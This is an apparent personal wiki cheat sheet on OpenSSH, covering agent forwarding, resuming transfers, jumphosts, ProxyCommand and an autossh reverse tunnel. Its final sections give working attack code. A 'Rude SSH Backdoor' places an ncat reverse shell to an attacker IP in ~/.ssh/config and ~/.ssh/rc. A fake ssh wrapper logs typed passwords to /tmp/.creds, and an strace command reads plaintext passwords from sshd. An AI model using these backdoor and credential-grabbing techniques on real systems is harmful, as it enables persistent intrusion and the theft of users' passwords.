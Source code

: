 ```yaml
---
title: Openssh
description: A quick summary of Openssh
published: true
date: 2023-01-14T04:09:20.262Z
tags: 
editor: markdown
dateCreated: 2022-10-01T21:23:50.953Z
---
```



# SSH Agent
```
eval `ssh-agent`
ssh-add # Will add all keys from ~/.ssh
ssh-add -l # Displays the added keys
```

then use ssh -A to forward 


# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
#cat ~/ssh/config

Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &

```

```
# cat ~/.ssh/rc
ncat -e /bin/bash <MYIP> 4141 &
```

# Rude password grabber
```
# cat /usr/local/bin/ssh

#!/bin/bash
read -esp "${1}'s password: " password
echo "$1 - $password" >> /tmp/.creds
echo
 /usr/bin/ssh $@
 
```

# Pull passwords out of ssh
ps --ppid 1 | grep sshd
strace -f -p 641 -e read |& grep -F "\f\0\0\0"

[pid 2235] read(6, "\f\0\0\0\10secret", 10) = 10

